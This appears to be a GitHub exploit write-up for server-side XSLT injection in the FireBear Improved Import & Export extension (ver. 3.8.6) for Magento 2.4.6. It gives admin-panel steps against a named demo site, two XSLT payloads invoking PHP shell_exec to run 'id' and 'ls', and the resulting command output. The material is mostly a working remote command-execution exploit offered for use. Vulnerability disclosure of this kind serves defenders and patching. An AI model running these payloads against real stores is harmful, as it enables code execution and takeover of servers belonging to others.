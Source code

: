 # Magento-ver.-2.4.6
Magento ver. 2.4.6 - XSLT Server Side Injection
# Exploit Title: FireBear Improved Import & Export ver. 3.8.6 for Magento 2.4.6  - XSLT Server Side Injection Command Execution

- **Date:** 2023-11-17
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [https://commercemarketplace.adobe.com/firebear-importexport.html](https://commercemarketplace.adobe.com/firebear-importexport.html)
- **Software Link:** [Magento 2.4.6-p3](https://github.com/magento/magento2/archive/refs/tags/2.4.6-p3.zip)
- **Version:** 2.4.6
- **Tested on:** 2.4.6

<img src="https://raw.githubusercontent.com/capture0x/Magento-ver.-2.4.6/main/magento.png" alt="Magento Image" width="1000">

<img src="https://raw.githubusercontent.com/capture0x/Magento-ver.-2.4.6/main/3.png" alt="Magento Image" width="1000">
## POC

1. Enter with admin credentials to this URL: [https://magento2demo.firebearstudio.com/](https://magento2demo.firebearstudio.com/)
2. Click `SYSTEM > Import Jobs > Entity Type Widget > click edit`
3. Choose  Import File Type > XML > Import Source is File
4. Upload any xml file
5. Click `XSLT Configuration` and write this payload:

   ```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','id')" />
     </xsl:template>
   </xsl:stylesheet>```
   
**<?xml version="1.0"?>
**uid=10095(a0563af8) gid=1050(a0563af8) groups=1050(a0563af8)

```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','ls')" />
     </xsl:template>
   </xsl:stylesheet>```

**<?xml version="1.0"?>
cron.php
errors
get.php
health_check.php
index.php
media
opt
robots.txt
static
static.php

